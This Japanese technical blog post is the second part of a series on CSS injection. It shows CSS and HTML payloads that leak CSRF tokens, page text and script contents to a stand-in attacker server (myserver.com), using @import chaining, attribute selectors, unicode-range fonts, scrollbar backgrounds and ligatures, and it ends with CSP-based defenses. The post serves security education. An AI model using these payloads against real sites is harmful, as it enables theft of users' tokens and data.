



# CSSだけで攻撃できる？CSSインジェクション（後編）

前回の記事では、CSSによるデータ盗難の基本的な原理について学び、HackMDを実例としてCSRFトークンの盗難に成功しました。この記事では、CSSインジェクションの詳細について掘り下げ、以下の問題に対処します。

1. HackMDはページを更新せずに新しいスタイルを読み込むことができますが、他のウェブサイトではどうでしょうか？最初の文字以降の文字をどのように盗むことができるでしょうか？
2. 一度に1文字しか盗めない場合、時間がかかりすぎるのではないでしょうか？これは実際に実行可能でしょうか？
3. 属性以外のものを盗む方法はありますか？例えば、ページ上のテキストコンテンツやJavaScriptコードなどです。
4. この攻撃手法に対する防御メカニズムは何でしょうか？

## すべての文字を盗む

前編では、盗みたいデータがページを更新すると変更される可能性がある（例：CSRFトークン）ため、ページを更新せずに新しいスタイルを読み込む必要があることに言及しました。

前回の記事でこれができたのは、HackMD自体がリアルタイム更新を謳っているサービスだからですが、一般的なウェブページではどうでしょうか？JavaScriptを使用できない状況で、どのように新しいスタイルを動的に読み込むことができるでしょうか？

この問題に関して、Pepe Vila氏が2019年に共有したプレゼンテーション[CSS Injection Attacks](https://vwzq.net/slides/2019-s3_css_injection_attacks.pdf)で解答が示されています：[@import](https://developer.mozilla.org/en-US/docs/Web/CSS/@import)。

CSSでは、JavaScriptの `import` のように、`@import` を使用して外部のスタイルをインポートできます。

この機能を利用して、以下のようなコードスニペットでスタイルをインポートするループを作成できます。

```css
@import url(https://myserver.com/start?len=8)
```

次に、サーバーは次のスタイルで応答します。

```css
@import url(https://myserver.com/payload?len=1)
@import url(https://myserver.com/payload?len=2)
@import url(https://myserver.com/payload?len=3)
@import url(https://myserver.com/payload?len=4)
@import url(https://myserver.com/payload?len=5)
@import url(https://myserver.com/payload?len=6)
@import url(https://myserver.com/payload?len=7)
@import url(https://myserver.com/payload?len=8)
```

ここが鍵です。一度に8つインポートしますが、サーバーは次の7つのリクエストに対してハングし、応答を提供しません。最初のURL `https://myserver.com/payload?len=1` のみが応答を返し、その内容は前述のデータ盗難ペイロードです。

```css
input[name="secret"][value^="a"] {
  background: url(https://b.myserver.com/leak?q=a)
}

input[name="secret"][value^="b"] {
  background: url(https://b.myserver.com/leak?q=b)
}

input[name="secret"][value^="c"] {
  background: url(https://b.myserver.com/leak?q=c)
}

//....

input[name="secret"][value^="z"] {
  background: url(https://b.myserver.com/leak?q=z)
}
```

ブラウザが応答を受信すると、上記のCSSスニペットを読み込みます。読み込み後、条件を満たす要素はバックエンドにリクエストを送信します。最初の文字がdだと仮定しましょう。次に、この時点で、サーバーは `https://myserver.com/payload?len=2` の内容で応答します。

```css
input[name="secret"][value^="da"] {
  background: url(https://b.myserver.com/leak?q=da)
}

input[name="secret"][value^="db"] {
  background: url(https://b.myserver.com/leak?q=db)
}

input[name="secret"][value^="dc"] {
  background: url(https://b.myserver.com/leak?q=dc)
}

//....

input[name="secret"][value^="dz"] {
  background: url(https://b.myserver.com/leak?q=dz)
}
```

このプロセスは繰り返され、これらの手順を繰り返すことで、すべての文字をサーバーに送信できます。これは、`import` がすでにダウンロードされたリソースを最初に読み込み、まだダウンロードされていないリソースを待つという特性に依存しています。

ここで注意すべき重要な点は、スタイルを `myserver.com` ドメインから読み込んでいるのに対し、背景画像のドメインは `b.myserver.com` であることです。これは、ブラウザが通常、単一ドメインから同時に読み込めるリクエスト数に制限があるためです。したがって、すべて `myserver.com` を使用すると、背景画像のリクエストがCSSインポートによってブロックされ、送信されないことがわかります。

したがって、この状況を回避するために、2つのドメインを設定する必要があります。

それ以外に、上記の方法はFirefoxでは機能しません。Firefoxでは、最初のリクエストの応答が先に返されても、スタイルはすぐに更新されません。すべてのリクエストが完了するまで待ってからまとめて更新されます。解決策については、Michał Bentkowski氏（名前を聞いたことがありますか？）が書いたこの記事を参照してください：[CSS data exfiltration in Firefox via a single injection point](https://research.securitum.com/css-data-exfiltration-in-firefox-via-single-injection-point/)。最初のインポートステップを削除し、各文字のインポートを次のように追加のスタイルで囲みます。

```html
<style>@import url(https://myserver.com/payload?len=1)</style>
<style>@import url(https://myserver.com/payload?len=2)</style>
<style>@import url(https://myserver.com/payload?len=3)</style>
<style>@import url(https://myserver.com/payload?len=4)</style>
<style>@import url(https://myserver.com/payload?len=5)</style>
<style>@import url(https://myserver.com/payload?len=6)</style>
<style>@import url(https://myserver.com/payload?len=7)</style>
<style>@import url(https://myserver.com/payload?len=8)</style>
```

上記のように記述すると、Chromeでも問題なく動作するため、上記のように統一することで、両方のブラウザを同時にサポートできます。

まとめると、`@import` というCSS機能を使用することで、「ページを再読み込みせずに、新しいスタイルを動的に読み込む」ことができ、それによって各文字を1つずつ盗むことができます。

## 一度に1文字ずつ盗むのは遅すぎる？

現実世界でこの種の攻撃を実行したい場合、効率をさらに向上させる必要があるかもしれません。HackMDを例にとると、CSRFトークンは36文字で構成されているため、36回のリクエストを送信する必要があります。これはかなり多いです。

実際、前編でプレフィックスセレクター以外にサフィックスセレクターもあると述べたように、一度に2文字を盗むことができます。したがって、次のようにすることができます。

```css
input[name="secret"][value^="a"] {
  background: url(https://b.myserver.com/leak?q=a)
}

input[name="secret"][value^="b"] {
  background: url(https://b.myserver.com/leak?q=b)
}

// ...
input[name="secret"][value$="a"] {
  border-background: url(https://b.myserver2.com/suffix?q=a)
}

input[name="secret"][value$="b"] {
  border-background: url(https://b.myserver2.com/suffix?q=b)
}
```

プレフィックスを盗むことに加えて、サフィックスも盗むことができ、効率が2倍になります。プレフィックスとサフィックスのCSSは異なるプロパティを使用していることに注意することが重要です。1つは `background` を使用し、もう1つは `border-background` を使用しています。これは、同じプロパティを使用すると、コンテンツが他のものによって上書きされ、最終的に1つのリクエストしか送信されないためです。

コンテンツに含まれる可能性のある文字数が少ない場合、例えば16文字の場合、一度に2つのプレフィックスと2つのサフィックスを直接盗むことができます。CSSルールの合計数は `16*16*2` = 512となり、これは許容範囲内であり、プロセスをさらに2倍高速化します。

これらの方法に加えて、サーバー側でも改善できます。例えば、HTTP/2またはHTTP/3を使用すると、リクエストの読み込み速度を高速化し、効率を向上させることができます。

## 他のものを盗む

属性を盗む以外に、他のものを盗む方法はありますか？例えば、ページ上の他のテキストやスクリプト内のコードなどです。

前編で説明した原理に基づくと、それは不可能です。「属性セレクター」というものがあるため、属性を盗むことができます。これにより、特定の要素を選択できます。しかし、CSSには「コンテンツ」自体を選択できるセレクターはありません。

したがって、この一見不可能なタスクを達成するには、CSSとウェブページ上のスタイルについてより深く理解する必要があります。

### unicode-range

CSSには、「unicode-range」というプロパティがあり、異なる文字に対して異なるフォントを読み込むことができます。以下は[MDN](https://developer.mozilla.org/en-US/docs/Web/CSS/@font-face/unicode-range)から取得した例です。

```html
<!DOCTYPE html>
<html>
  <body>
    <style>
      @font-face {
        font-family: "Ampersand";
        src: local("Times New Roman");
        unicode-range: U+26;
      }

      div {
        font-size: 4em;
        font-family: Ampersand, Helvetica, sans-serif;
      }
    </style>
    <div>Me & You = Us</div>
  </body>
</html>
```

`&` のユニコードは `U+0026` なので、`&` という文字だけが異なるフォントで表示され、残りは同じフォントを使用します。

フロントエンド開発者は以前このテクニックを使用したことがあるかもしれません。例えば、英語と中国語を異なるフォントで表示するために。このテクニックは、次のようにページ上のテキストを盗むためにも使用できます。

```html
<!DOCTYPE html>
<html>
  <body>
    <style>
      @font-face {
        font-family: "f1";
        src: url(https://myserver.com?q=1);
        unicode-range: U+31;
      }

      @font-face {
        font-family: "f2";
        src: url(https://myserver.com?q=2);
        unicode-range: U+32;
      }

      @font-face {
        font-family: "f3";
        src: url(https://myserver.com?q=3);
        unicode-range: U+33;
      }

      @font-face {
        font-family: "fa";
        src: url(https://myserver.com?q=a);
        unicode-range: U+61;
      }

      @font-face {
        font-family: "fb";
        src: url(https://myserver.com?q=b);
        unicode-range: U+62;
      }

      @font-face {
        font-family: "fc";
        src: url(https://myserver.com?q=c);
        unicode-range: U+63;
      }

      div {
        font-size: 4em;
        font-family: f1, f2, f3, fa, fb, fc;
      }
    </style>
    Secret: <div>ca31a</div>
  </body>
</html>
```

ネットワークタブを確認すると、合計4つのリクエストが送信されていることがわかります。



このテクニックを使用することで、ページ上に13acという4つの文字があることを特定できます。

ただし、このテクニックには限界があります。

1. 文字の順序がわかりません。
2. 重複する文字があるかどうかもわかりません。

しかし、「フォントの読み込み」という観点から文字を盗む方法を考えることは、多くの人々に新しい考え方をもたらし、さまざまな他の方法の開発につながりました。

### フォントの高さの違い + first-line + scrollbar

このテクニックは、前のテクニックで遭遇した問題「文字の順序がわからない」を解決することを目的としています。多くの詳細を組み合わせ、複数のステップが含まれているため、注意深く聞いてください。

まず、外部フォントを読み込まずに、組み込みフォントを使用して文字をリークできます。これはどのように行うのでしょうか？高さが異なる2組の組み込みフォントを見つける必要があります。

例えば、「Comic Sans MS」というフォントは、別のフォント「Courier New」よりも高さが高いです。

例として、デフォルトのフォントの高さが30px、Comic Sans MSが45pxだと仮定しましょう。次に、テキストコンテナの高さを40pxに設定し、フォントを読み込みます。このように：

```html
<!DOCTYPE html>
<html>
  <body>
    <style>
      @font-face {
        font-family: "fa";
        src:local('Comic Sans MS');
        font-style:monospace;
        unicode-range: U+41;
      }
      div {
        font-size: 30px;
        height: 40px;
        width: 100px;
        font-family: fa, "Courier New";
        letter-spacing: 0px;
        word-break: break-all;
        overflow-y: auto;
        overflow-x: hidden;
      }
      
    </style>
    Secret: <div>DBC</div>
    <div>ABC</div>
  </body>
</html>
```

画面に違いが表示されます。



文字Aが他の文字よりも高さが高いことは明らかです。CSS設定によると、コンテンツの高さがコンテナの高さを超えると、スクロールバーが表示されます。上記のスクリーンショットでは見えないかもしれませんが、下のABCにはスクロールバーがあり、上のDBCにはありません。

さらに、スクロールバーに外部の背景を設定できます。

```css
div::-webkit-scrollbar {
    background: blue;
}

div::-webkit-scrollbar:vertical {
    background: url(https://myserver.com?q=a);
}
```

これは、スクロールバーが表示された場合、サーバーはリクエストを受信することを意味します。スクロールバーが表示されない場合、リクエストは受信されません。

さらに、divに `fa` フォントを適用すると、画面にAが表示された場合、スクロールバーが表示され、サーバーはリクエストを受信します。画面にAが表示されない場合、何も起こりません。

したがって、異なるフォントを繰り返し読み込むと、サーバーは画面に表示されている文字を知ることができます。これは、`unicode-range` を使用して達成したことと同様です。

では、順序の問題をどのように解決するのでしょうか？

まず、divの幅を1文字しか表示できないように縮小し、他の文字が2行目に配置されるようにします。次に、[::first-line](https://developer.mozilla.org/en-US/docs/Web/CSS/::first-line)セレクターを使用して、特に1行目のスタイルを調整します。このように：

```html
<!DOCTYPE html>
<html>
  <body>
    <style>
      @font-face {
        font-family: "fa";
        src:local('Comic Sans MS');
        font-style:monospace;
        unicode-range: U+41;
      }
      div {
        font-size: 0px;
        height: 40px;
        width: 20px;
        font-family: fa, "Courier New";
        letter-spacing: 0px;
        word-break: break-all;
        overflow-y: auto;
        overflow-x: hidden;
      }

      div::first-line{
        font-size: 30px;
      }

    </style>
    Secret: <div>CBAD</div>
  </body>
</html>
```

画面には「C」という文字だけが表示されます。これは、まず `font-size: 0px` を使用してすべての文字のフォントサイズを0に設定し、次に `div::first-line` を使用して調整し、1行目のフォントサイズを30pxにするためです。言い換えれば、1行目の文字だけが見え、現在のdivの幅は20pxしかないため、最初の文字だけが表示されます。

次に、先ほど学んだトリックを使用して、異なるフォントを読み込んでみます。faフォントを読み込むと、画面にAが表示されないため、変化はありません。しかし、fcフォントを読み込むと、画面にCが表示されるため、Comic Sans MSを使用してCが表示され、高さが高くなり、スクロールバーが表示され、それを使用してリクエストを送信できます。このように：

```css
div {
  font-size: 0px;
  height: 40px;
  width: 20px;
  font-family: fc, "Courier New";
  letter-spacing: 0px;
  word-break: break-all;
  overflow-y: auto;
  overflow-x: hidden;
  --leak: url(http://myserver.com?C);
}

div::first-line{
  font-size: 30px;
}

div::-webkit-scrollbar {
  background: blue;
}

div::-webkit-scrollbar:vertical {
  background: var(--leak);
}
```

では、どのようにして新しいフォントファミリーを使い続けることができるのでしょうか？CSSアニメーションを使用することで実現できます。CSSアニメーションを使用して、異なるフォントファミリーを継続的に読み込み、異なる `--leak` 変数を指定できます。

このようにして、画面上の最初の文字が何であるかを知ることができます。

最初の文字がわかったら、divの幅を長くします。例えば40pxにすると、2文字を収容できます。したがって、1行目は最初の2文字になります。次に、同じ方法で異なるフォントファミリーを読み込むと、2番目の文字をリークできます。詳細なプロセスは次のとおりです。

1. 画面上の文字が「ACB」であると仮定します。
2. 幅を20pxに調整し、1行目には最初の文字「A」のみが表示されます。
3. フォント「fa」を読み込むと、「A」がより大きなフォントサイズで表示され、スクロールバーが表示されます。スクロールバーの背景を読み込み、サーバーにリクエストを送信します。
4. フォント「fb」を読み込みますが、「B」は画面に表示されないため、変化はありません。
5. フォント「fc」を読み込みますが、「C」は画面に表示されないため、変化はありません。
6. 幅を40pxに調整し、1行目には最初の2文字「AC」が表示されます。
7. フォント「fa」を再度読み込むと、「A」がより大きなフォントサイズで表示され、スクロールバーが表示されます。この時点で、背景はすでに読み込まれているため、新しいリクエストは送信されません。
8. フォント「fb」を読み込むと、「B」がより大きなフォントサイズで表示され、スクロールバーが表示されます。スクロールバーの背景を読み込みます。
9. フォント「fc」を再度読み込むと、「C」がより大きなフォントサイズで表示されますが、同じ背景がすでに読み込まれているため、リクエストは送信されません。
10. 幅を60pxに調整し、3文字すべて「ACB」が1行目に表示されます。
11. フォント「fa」を再度読み込むと、ステップ7と同じです。
12. フォント「fb」を読み込むと、「B」がより大きなフォントサイズで表示され、スクロールバーが表示されます。スクロールバーの背景を読み込みます。
13. フォント「fc」を再度読み込むと、「C」がより大きなフォントサイズで表示されますが、同じ背景がすでに読み込まれているため、リクエストは送信されません。
14. 終了。

上記のプロセスから、サーバーはA、C、Bの順序で3つのリクエストを受信することがわかります。これは画面上の文字の順序を表しています。幅とフォントファミリーを継続的に変更することは、CSSアニメーションを使用して実現できます。

この複雑だが素晴らしい方法は、私によって発明されたものではなく、@cgvwzq氏と@terjanq氏によるものです。元のデモを見たい場合は、このウェブページをご覧ください（出典：[What can we do with single CSS injection?](https://www.reddit.com/r/Slackers/comments/dzrx2s/what_can_we_do_with_single_css_injection/)）：https://demo.vwzq.net/css2.html

この解決策は「文字の順序がわからない」という問題を解決しますが、重複する文字の問題は解決できません。なぜなら、重複する文字は新しいリクエストをトリガーしないからです。

### 究極の技：合字 + スクロールバー

結論から言うと、この技は上記のすべての問題を解決し、「文字の順序を知り、重複する文字も知る」という目標を達成し、完全なテキストを盗むことができます。

方法を理解する前に、合字（ligature）という専門用語を知る必要があります。一部のフォントでは、特定の文字の組み合わせが、下の画像に示すように連結された形状としてレンダリングされます（出典：[wikipedia](https://en.wikipedia.org/wiki/Ligature_(writing))）。


これはどのように役立つのでしょうか？

独自のフォントを作成し、`ab` を合字として設定し、非常に幅の広い要素としてレンダリングできます。次に、特定のdivの幅を固定値に設定し、先ほどのスクロールバーのトリックと組み合わせます。「ab」が表示された場合、非常に幅が広くなり、スクロールバーが表示され、サーバーに通知するリクエストを読み込むことができます。表示されない場合、スクロールバーは表示されず、何も起こりません。

プロセスは次のとおりです。画面に「acc」という文字があると仮定します。

1. 合字「aa」を含むフォントを読み込みますが、何も起こりません。
2. 合字「ab」を含むフォントを読み込みますが、何も起こりません。
3. 合字「ac」を含むフォントを読み込むと、特大の画面が正常にレンダリングされ、スクロールバーが表示され、サーバー画像が読み込まれます。
4. サーバーは画面に「ac」があることを認識します。
5. 合字「aca」を含むフォントを読み込みますが、何も起こりません。
6. 合字「acb」を含むフォントを読み込みますが、何も起こりません。
7. 合字「acc」を含むフォントを読み込むと、正常にレンダリングされ、スクロールバーが表示され、結果がサーバーに送信されます。
8. サーバーは画面に「acc」があることを認識します。

合字とスクロールバーを組み合わせることで、画面上のすべての文字をゆっくりとリークできます。JavaScriptコードでさえも！

スクリプトの内容が画面に表示できることをご存知でしたか？

```css
head, script {
  display: block;
}
```

このCSSを追加すると、スクリプトの内容が画面に表示されるため、同じテクニックを使用してスクリプトの内容を盗むこともできます！

実際には、SVGを他のツールと組み合わせて、サーバー側でフォントを迅速に生成できます。詳細と関連コードを見たい場合は、Michał Bentkowski氏が書いたこの記事を参照してください：[Stealing Data in Great style – How to Use CSS to Attack Web Application.](https://research.securitum.com/stealing-data-in-great-style-how-to-use-css-to-attack-web-application/)

Masato Kinugawa氏は、Safariバージョンのデモも作成しました。SafariはSVGフォントをサポートしているため、サーバーからフォントを生成する必要はありません。元の記事はこちらです：[Data Exfiltration via CSS + SVG Font - PoC (Safari only)](https://github.com/masatokinugawa/css-exfiltration-svg-font/)

ここでは、これが可能であることを示すために、簡略化されたデモを作成します。

```html
<!DOCTYPE html>
<html lang="en">
<body>
  <script>
    var secret = "abc123"
  </script>
  <hr>
  <script>
    var secret2 = "cba321"
  </script>
  <svg>
    <defs>
    <font horiz-adv-x="0">
      <font-face font-family="hack" units-per-em="1000" />
        <glyph unicode='"a' horiz-adv-x="99999" d="M1 0z"/>
      </font>
    </defs>
  </svg>
  <style>
    script {
      display: block;
      font-family:"hack";
      white-space:n owrap;
      overflow-x: auto;
      width: 500px;
      background:lightblue;
    }

    script::-webkit-scrollbar {
      background: blue;
    }

  </style>
</body>
</html>
```

スクリプトに2つのJavaScriptコードセクションを追加しました。内容はそれぞれ `var secret = "abc123"` と `var secret2 = "cba321"` です。次に、CSSを使用して、準備したフォントを読み込みます。`"a` の合字がある場合、幅が非常に広くなります。

次に、スクロールバーが表示された場合、視認性を高めるために背景を青に設定します。最終結果は次のとおりです。



上記では、コンテンツが `var secret = "abc123"` であるため、`"a` の合字に一致し、幅が広くなり、スクロールバーが表示されます。

以下では、`"a` がないため、スクロールバーは表示されません（「a」がある場所は文字が欠落していますが、これは他のグリフを定義していないことに関連しているはずですが、結果には影響しません）。

スクロールバーの背景をURLに変更することで、サーバーからリークされた結果を知ることができます。

実際のデモとサーバー側の実装を見たい場合は、上記の2つの記事を参照してください。

## 防御策

最後に、防御策について説明します。最も単純でわかりやすい方法は、スタイルを使用できないようにすることです。これにより、基本的にCSSインジェクションの問題はなくなります（実装に脆弱性がない限り）。

スタイルを許可したい場合は、CSPを使用して特定のリソースの読み込みをブロックすることもできます。例えば、`font-src` を完全に開く必要はなく、`style-src` も許可リストに設定することで、`@import` 構文をブロックできます。

さらに、ページ上のものが持ち去られた場合に何が起こるかを考慮することもできます。例えば、CSRFトークンが持ち去られた場合、最悪のシナリオはCSRFです。この場合、CSRFをブロックするためのより多くの保護を実装できます。攻撃者がCSRFトークンを取得したとしても、CSRFを実行することはできません（例えば、オリジンヘッダーをチェックするなど）。

## まとめ

CSSは本当に広大で奥深いですね。これらの先人たちがCSSをこれほど多様に使いこなし、これほど多くの目を見張るような攻撃手法を開発できることに本当に感心します。研究していた当初、属性セレクターを使って情報をリークできることは理解できましたが、`unicode-range` を使うことも理解できました。しかし、テキストの高さとCSSアニメーションを使って変化させる方法を理解するのにかなりの時間がかかりました。合字の概念は理解しやすいですが、実際に実装するには多くの問題に遭遇します。

この2つの記事は主にCSSインジェクションという攻撃手法を紹介するものであり、実際のコードはそれほど多くありません。これらの攻撃手法はすべて先人たちの記事を参考にしています。参考文献リストを以下に添付しますので、興味があれば原文を読んでみてください。より詳細な説明が記載されています。

参考文献：

1. [CSS Injection Attacks](https://vwzq.net/slides/2019-s3_css_injection_attacks.pdf)
2. [CSS Injection Primitives](https://x-c3ll.github.io/posts/CSS-Injection-Primitives/)
3. [HackTricks - CSS Injection](https://book.hacktricks.xyz/pentesting-web/xs-search/css-injection)
4. [Stealing Data in Great style – How to Use CSS to Attack Web Application.](https://research.securitum.com/stealing-data-in-great-style-how-to-use-css-to-attack-web-application/)
5. [Data Exfiltration via CSS + SVG Font](https://mksben.l0.cm/2021/11/css-exfiltration-svg-font.html)
6. [Data Exfiltration via CSS + SVG Font - PoC (Safari only)](https://github.com/masatokinugawa/css-exfiltration-svg-font/)
7. [CSS data exfiltration in Firefox via a single injection point](https://research.securitum.com/css-data-exfiltration-in-firefox-via-single-injection-point/)

